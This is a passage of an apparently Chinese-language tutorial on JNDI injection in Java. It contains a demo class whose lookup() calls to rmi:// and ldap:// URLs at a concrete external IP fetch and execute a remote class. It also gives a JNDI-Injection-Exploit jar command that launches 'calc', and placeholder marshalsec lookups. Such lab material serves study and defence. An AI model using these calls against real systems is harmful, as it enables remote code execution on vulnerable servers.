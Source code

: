 在LDAP服务中调用了 InitialContext.lookup() 的类有：

**InitialDirContext.lookup()**

**Spring LdapTemplate.lookup()**

**LdapTemplate.lookupContext()**

## JNDI 注入-RMI&LDAP 服务

创建项目，之后再创建JndiDemo，代码如下：

```java
package org.example.jndiinjectdemo;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JndiDemo {
    public static void main(String[] args) throws NamingException {
        // 创建一个rmi ldap等服务调用  实例化对象
        InitialContext ic = new InitialContext();
        // 调用rmi ldap等服务对象类(远程服务)
        //ldap://47.243.198.220:1389/5le86y = 远程地址的一个class文件被执行
        //ic.lookup("ldap://47.243.198.220:1389/5le86y");
        ic.lookup("rmi://47.243.198.220:1099/5le86y");
    }
}
```

### JNDI远程调用JNDI-Injection

这里就展示参考文档中的部分了，和上次的内容差不了多少。

使用Xshell连接，输入以下命令

```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A IP地址
```

**使用Ldap连接（默认端口1389）**

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/5dd35a7f89df474f9c92ee0b2c920031.png" alt="img" style="zoom:50%;" />

**使用rmi连接（默认端口1099）**

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/cbd6a1750076480381f18542c0d69958.png" alt="img" style="zoom:50%;" />

### JNDI远程调用-marshalsec

1. 使用远程调用 ( 默认端口 1389 )

   new InitialContext().lookup("ldap://xx.xx.xx.xx:1389/Test");

   new InitialContext().lookup("rmi://xx.xx.xx.xx:1099/Test");

2. 编译调用对象
